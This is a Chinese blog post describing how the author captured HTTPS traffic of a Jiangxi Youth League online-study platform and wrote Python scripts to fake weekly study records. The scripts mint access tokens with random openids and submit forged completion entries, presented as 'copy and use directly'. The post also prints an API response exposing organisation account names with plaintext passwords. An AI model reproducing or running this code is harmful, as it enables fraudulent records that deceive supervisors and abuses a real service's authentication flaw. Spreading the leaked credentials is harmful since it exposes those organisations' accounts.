起因
由于每周都要被辅导员吹青年大学习，以前是伪造截图就好了，现在还有个后台什么的可以查看到哪些人看了没看。一般人肯定就老老实实去看了，但是作为学习了计算机的人，肯定不能向势力屈服…
分析 首先，每次辅导员催交的时候都会发一个已经观看了青年大学习的截图，没在名单上的就视为没看过。如下图

里面由我们的名字学号和所在团委，那么，这些记录怎么来的呢？有过web相关开发的都知道，这肯定是客户端发了一个请求到服务器里头，服务器存储到了数据库中，然后便有了记录可查。那么这个请求是什么时候发起的呢？是在我们看完青年大学习的时候就发了一个请求过去吗？还记得我们进入青年大学习时有一个选择团委和填写姓名的页面么？问题揭晓了，就是那个界面我们提交了我们的”学习记录”，如下图

问题
那么知道是这个界面提交了我们的”学习记录“,此时此刻我们就需要获取这个页面的url，然后找到他的请求地址，用编程语言去模拟发起请求就可以了
我们用手机本来可以点击右上角选择用浏览器打开获取这个地址的url，但是呢，没有这个选项，那么该如何获取这个请求地址呢？
方法 既然浏览器无法打开，那么我们可以使用http抓包工具，抓包工具可以获取我们手机电脑上的http请求，我使用的 Fiddler Everywhere 这个抓包工具
下载地址: Fiddler | Web Debugging Proxy and Troubleshooting Solutions (telerik.com)

里面蛮多版本 ，Fiddler Everywhere是需要登录并且只有三十天的试用期，他的界面的是比较美观的，而且一些请求分析看起来蛮好的。Fiddler Classic界面有点年代感，但是他是免费的。但是作为颜狗，我坚定的选择了前者。
给出两者的图片对比
Fiddler Everywhere

Fiddler Classic

开始 fiddler everywhere下载好了，在的网站基本都是https协议的，所以我先配置了一下fiddler的https证书

点击设置的图标，选择右侧的HTTPS,勾选Capture HTTPS traffic 并 Trust root Certificate ,安装好证书后就可以捕获https包了
我这里就不用手机去抓包了，因为电脑微信也是可以访问那个页面的，懒得去弄手机的了
如果要弄用手机抓包，就开启一下Fiddler的允许远程连接，手机上再配置一下代理和安装好https证书就好了

抓包 打开 Fiddler EveryWhere 并访问公众号江西共青团，点击网上团课，然后会弹出这个“熟悉”的界面（之前没登录过的可能会显示授权窗口）
与此同时，我们观察到 Fiddler 中有相关的请求

我们可以看到其中有很多个个https://jstw.h5yunban.cn开始请求，八九不离十，就是这个了，查看他们这些url的请求与响应
这个url从名字（signUp）上看就是一个登录或注册页面的地址，就是我们上面那个页面的地址，看它的返回的html就明白了



我修改了这个accessToken的值，浏览器访问一下，结果如下

这也证明了这个accessToken是标识用户身份信息的一个东西，每个人都有对应的accessToken

这个url返回的信息也是无关紧要，无需带token，说明是一个通用的url
从返回值来看，以及url地址上的current判断，这个地址返回的是当前期的青年大学习课程
json格式如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 { "status" : 200 , "message" : null , "result" : { "id" : "C0038" , "pid" : "C" , "type" : "网上主题团课" , "startTime" : "2021-09-20 12:00:00" , "endTime" : "2021-09-26 18:00:00" , "title" : "第十二季第一期" , "cover" : "https://st-file.yunbanos.cn/uploadsoss/jxtw-qndxx/2021-09-20/c3a3b4da48ab63041d81f39e38ba8e21.png" , "uriType" : "超链接" , "uri" : "https://h5.cyol.com/special/daxuexi/bq9we1g5wq/m.html" , "content" : null , "s" : "正常" , "creator" : "0e10adc3949ba59abbe56e057f20f883e" , "createTime" : "2021-09-20 10:44:46" , "users" : "0" , "clickTimes" : "0" , "isTop" : null }, "debug" : null }
记住这里面的result中的id，这个是课程id,表示着这是哪一期的课程，后面会用到
返回格式如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 { "status" : 200 , "message" : null , "result" : [ { "id" : "N0002" , "title" : "南昌市" , "type" : "" , "pid" : "N" , "image" : null , "level" : "1" , "memberCnt" : "132736" , "aid" : "529891B3-D535-40E3-A003-ABF53EC37C9C" , "account" : "nctsw" , "password" : "83885819" }, { "id" : "N0003" , "title" : "九江市" , "type" : "" , "pid" : "N" , "image" : null , "level" : "1" , "memberCnt" : "111526" , "aid" : "5FEB3AFD-271D-4A40-B04C-D5675F3DBB28" , "account" : "jjtsw" , "password" : "371650" }, .... { "id" : "N0016" , "title" : "省直属单位团委" , "type" : "" , "pid" : "N" , "image" : null , "level" : "1" , "memberCnt" : "0" , "aid" : "6246F567-F09E-4BD9-8C57-B55D1E4EC465" , "account" : "szsdwtw" , "password" : "661268" } ], "debug" : null }
地址上的按个pid其实就是一个团委的标识符，通过pid获取其下级团委，江西省这边的第一的pid是N，所以通过pid=N 获取到了各个市级的团委列表。返回的参数里头又有一个id,然后通过这个id，也可以获取其下面的团委
比如从中知道了南昌市的id： N0002
访问: https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/common-api/organization/children?pid=N0002
返回结果如下:

结果是南昌市下级团委列表
这个url是关键，这就是为啥辅导员截图中有详细的团委的名称了，就是这个接口，好了，继续分析余下的url

这个地址是返回了用户的学习记录,需要带token
继续 好了，目前为止，我们之前那次点击发起的请求发现的 urls 就已经分析完了
为了避免请求过多，我把分析过的请求给 remove

点击开始学习,继续抓余下的请求地址

弹出了以下界面，而且我一进去，他就自动帮我填好了团委和名字信息，为啥呢？我继续观察Fiddler，发现了多了以下几个请求

接着继续分析每个 url 的请求和响应

这个请求是获取我上一次的“学习记录”，这也就是为什么一进去那个界面就自动帮我们填好了信息
剩下的几个请求都是根据团委 id 获取该团委下的团委列表
继续点击去学习
这次这个应该是关键了，因为我们信息已经填好了，点击这个估计就是把信息提交到服务器了

在点击这个进去了那个视频学习页面，同时也多了几个h5.cyol.com的域名开始请求，这个就是青年大学习服务器所用的相关域名了，不用管，我们继续分析jxtw.h5yunban.cn这个域名下的请求
重要请求
这个请求便是将我们的信息发送到服务器的请求了

注意这个请求和之前的请求有点不大一样，这个请求有请求体，之前的就是单纯的一个url访问，这次因为是提交，我们的信息是包含在请求体中被发送服务器被记录的
返回的结果是表示我们成功了
1 2 3 4 5 6 7 8 9 10 11 { "course" : "C0038" , "nid" : "" , "subOrg" : "" , "cardNo" : "汤小波" }
返回结果json
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 { "status" : 200 , "message" : null , "result" : { "id" : "1428316" , "openid" : "" , "nid" : "" , "subOrg" : "" , "cardNo" : "汤小波" , "userIp" : "" , "createTime" : "2021-09-26 14:36:53" , "lastUpdTime" : "2021-09-26 14:36:53" }, "debug" : null }
由此得知，辅导员那里的表格记录，就是这个请求造成的，这个请求包含了我们所在的团委，班级信息等
那问题好办了，只要我们用编程语言每周往这个接口发起请求，那么也就意味着我们每周都“学习了”
现在的关键是拿到那个标识我们身份的 accessToken 的值，但是呢，这个accessToken只有一定时间段的有效性，过了就会失效
接下来的问题 我们总不可能每次等请求过期都去抓包获取一次它的请求吧？那也太麻烦了，还不如老老实实手动去点击。
同样的道理，找到获取token的接口不就得了，每次自动去获取新的token就好了
接下来的我就展示抓包分析过程了，我直接把我的最终结果展示出来
1 https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/login/we-chat/callback?callback=https%3A%2F%2Fjxtw.h5yunban.cn%2Fjxtw-qndxx%2FsignUp.php&scope=snsapi_userinfo&appid=wxe9a08de52d2723ba&openid=一个openid&nickname=名称&headimg=头像地址&time=时间戳&source=common&t=时间戳"
这个 url 里面我用中文标识出来的参数就是获取信息的关键，appid貌似是固定的（我只用了我自己和我一个同学的测试），随机改变 openid 是可以获取到token的，只是获取到的token不再是你，而是一个新同学（这个新同学是没有在服务器有过记录的），所以每次通过这个请求获取到一个token，这个新同学提交的是你的信息，假如你是张三，团委是XX,那么新同学提交的时候就填张三的名字，那么辅导员那里的记录就有了一个张三，那么也就认为你学习了青年大学习。
其实上面只有 openid 需要改变 openid改变代表不同的账号，如果是同一个openid，那就代表是同一个账号，反复发请求过去，还是记录在同一个账号上，最后只有最后一次请求才有效果滴，所以openid至关重要随即变
好了，说了这么多，上代码，这里我用我熟悉python配合requests库发起请求
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 import stringimport timeimport tracebackimport randomimport refrom urllib.parse import urlencodeimport requestsfrom faker import Fakerdef gen_rand_str (len return '' .join(random.sample(string.ascii_letters + string.digits, len )) def get_token (): url = "https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/login/we-chat/callback?callback=https%3A%2F%2Fjxtw.h5yunban.cn%2Fjxtw-qndxx%2FsignUp.php&scope=snsapi_userinfo&appid=wxe9a08de52d2723ba&openid={}&{}&headimg=https://thirdwx.qlogo.cn/mmopen/vi_32/I7gbHHRj903RFibtlB4jrz1T1jTJ3eCWsCJwibQIT5hLRXO25ib9AHeqUjsPGmwhtiaBuzhQfhEZ6ibBdGbyZuM72LA/132&time={}&source=common&t={}" try : faker = Faker('zh_CN' ) openid = gen_rand_str(28 ) nickname = urlencode({'j' : faker.name()}) newurl = url.format (openid, nickname, "%d" % time.time(), "%d" % time.time()) print (newurl) res = requests.get(newurl) text = res.text print (text) token = re.findall("<script>localStorage.setItem\('accessToken', '(.*?)'\)" , text) if token: token = token[0 ] except : traceback.print_exception() print ('获取token出错' ) return None else : return token if __name__ == '__main__' : print (get_token())
稍作解释： 获取那个newurl获得的内容如下，其实可以直接在浏览器打开那个newurl，然后浏览器会执行下面返回的脚本，然后就可以用你的电脑浏览器访问那个界面了，因为本地已经存储好了那个token
1 <script > localStorage .setItem('accessToken' , '53FD1B6B-06E0-4758-A4C2-8F80DDE3CEF9' );window .location.replace('https://jxtw.h5yunban.cn/jxtw-qndxx/signUp.php' );</script >
看调用了localstorage将accessToken存在本地，然后重定向到那个登录页面
我们通过正则表达式解析出来就好
好了，动态的token获取到了，不要纠结，这个token是不代表任何人，因为那个 openid 是随机的，我也不知道这个系统后端是怎么写的，随机一个数组也能拿到token,只不过这个token是一个全新的人，这个获取到的token是可以通过后端验证的，用这个新的token去发起请求，将你的信息携带过去，只要那边后台记录了一个我所在的团委一个和你同名的人，辅导员就认为你已经学习了
伪造一次请求的完整代码，直接复制可用
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 import jsonimport stringimport timeimport tracebackimport randomimport refrom urllib.parse import urlencodeimport requestsfrom faker import Fakerdef gen_rand_str (len return '' .join(random.sample(string.ascii_letters + string.digits, len )) def get_token (): url = "https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/login/we-chat/callback?callback=https%3A%2F%2Fjxtw.h5yunban.cn%2Fjxtw-qndxx%2FsignUp.php&scope=snsapi_userinfo&appid=wxe9a08de52d2723ba&openid={}&{}&headimg=https://thirdwx.qlogo.cn/mmopen/vi_32/I7gbHHRj903RFibtlB4jrz1T1jTJ3eCWsCJwibQIT5hLRXO25ib9AHeqUjsPGmwhtiaBuzhQfhEZ6ibBdGbyZuM72LA/132&time={}&source=common&t={}" try : faker = Faker('zh_CN' ) openid = gen_rand_str(28 ) nickname = urlencode({'j' : faker.name()}) newurl = url.format (openid, nickname, "%d" % time.time(), "%d" % time.time()) res = requests.get(newurl) text = res.text token = re.findall("<script>localStorage.setItem\('accessToken', '(.*?)'\)" , text) if token: token = token[0 ] except : traceback.print_exception() print ('获取token出错' ) return None else : return token def onepost (access_token, course_id, nid, class_name, username ): ''' 发起一次请求 :param access_token: :param course_id: 课程id :param nid: 团委id :param class_name: 班级 :param username: 学生姓名 :return: ''' post_data = { "course" : course_id, "nid" : nid, "subOrg" : class_name, "cardNo" : username } try : post_url = "https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/user-api/course/join?accessToken=" res = requests.post(url=post_url + access_token, data=json.dumps(post_data)) if res.status_code == 200 : print (res.json()) return True else : return False except : print ('发送请求出错！' ) return False def get_current_course_id (token ): if not token: return None current_url = "https://jxtw.h5yunban.cn/jxtw-qndxx/cgi-bin/common-api/course/current?accessToken=" new_current_url = current_url + token course_id = None try : res = requests.get(new_current_url) if res.status_code == 200 : res_json = res.json() if res_json.get('status' ) != 200 : return None result = res_json['result' ] course_id = result.get('id' ) title = result.get('title' ) except : print ('获取课程id出错' ) return None else : return (course_id, title) def main (): faker = Faker('zh_CN' ) course_res = get_current_course_id(get_token()) if not course_res: print ('获取course_id出错' ) return course_id = course_res[0 ] course_title = course_res[1 ] nid = "" ''' 班级 注意： 如果有的团委组织是第四级组织,那么这个class_name就为空值就行， 否则会出现以下响应 {'status': 400, 'message': '已选择四级组织，无需输入', 'result': None, 'debug': None} ''' class_name = '班级' username = faker.name() token = get_token() if not token: return res = onepost(token, course_id, nid, class_name, username) if res: print ('成功' ) if __name__ == '__main__' : main()
请求接口汇总